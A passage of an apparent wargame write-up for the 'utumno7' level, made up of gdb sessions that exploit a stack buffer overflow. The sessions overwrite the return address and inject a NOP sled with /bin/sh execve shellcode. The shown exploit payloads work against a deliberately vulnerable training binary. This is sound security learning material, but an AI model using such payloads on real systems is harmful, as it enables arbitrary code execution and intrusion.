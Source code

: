 ```nasm
(gdb) run $(python -c 'print "A"*140 + "\xe4\xd7\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno7 $(python -c 'print "A"*140 + "\xe4\xd7\xff\xff"')
lol ulrich && fuck hector

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
=> 0x41414141:	Cannot access memory at address 0x41414141
```

Afer a few try, I was able to properly control the return address :

```nasm
(gdb) run $(python -c "print 'AAAA' + 'BBBB' +  '\x90' * 132 + '\xdd\xd7\xff\xff'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno7 $(python -c "print 'AAAA' + 'BBBB' +  '\x90' * 132 + '\xdd\xd7\xff\xff'")
lol ulrich && fuck hector

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
=> 0x42424242:	Cannot access memory at address 0x42424242
```

Now we can place a standard **/bin/sh** shellcode and find a return address.

```nasm
utumno7@utumno:/utumno$ gdb -q ./utumno7
Reading symbols from ./utumno7...done.
(gdb) set disassembly-flavor intel
(gdb) set disassemble-next-line on
(gdb) run $(python -c "print 'AAAA' + 'BBBB' +  '\x90' * 111  + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xdd\xd7\xff\xff'")
Starting program: /utumno/utumno7 $(python -c "print 'AAAA' + 'BBBB' +  '\x90' * 111  + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xdd\xd7\xff\xff'")
lol ulrich && fuck hector

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
=> 0x42424242:	Cannot access memory at address 0x42424242
(gdb) x/512x $esp-500
0xffffd5f1:	0xdd080485	0x00ffffd7	0x86000000	0x02f7e2a2

...[removed]...

0xffffd7c1:	0x00000000	0x00000000	0x00000000	0x7574752f
0xffffd7d1:	0x2f6f6e6d	0x6d757475	0x00000017	0x41414141
0xffffd7e1:	0x42424242	0x90909090	0x90909090	0x90909090
0xffffd7f1:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd801:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd811:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd821:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd831:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd841:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd851:	0x31909090	0xb0e1f7c9	0x2f68510b	0x6868732f
0xffffd861:	0x6e69622f	0x80cde389	0xffffd7dd	0x5f434c00
0xffffd871:	0x3d4c4c41	0x555f6e65	0x54552e53	0x00382d46
0xffffd881:	0x435f534c	0x524f4c4f	0x73723d53	0x643a303d
0xffffd891:	0x31303d69	0x3a34333b	0x303d6e6c	0x36333b31
0xffffd8a1:	0x3d686d3a	0x703a3030	0x30343d69	0x3a33333b
0xffffd8b1:	0x303d6f73	0x35333b31	0x3d6f643a	0x333b3130
0xffffd8c1:	0x64623a35	0x3b30343d	0x303b3333	0x64633a31
0xffffd8d1:	0x3b30343d	0x303b3333	0x726f3a31	0x3b30343d
```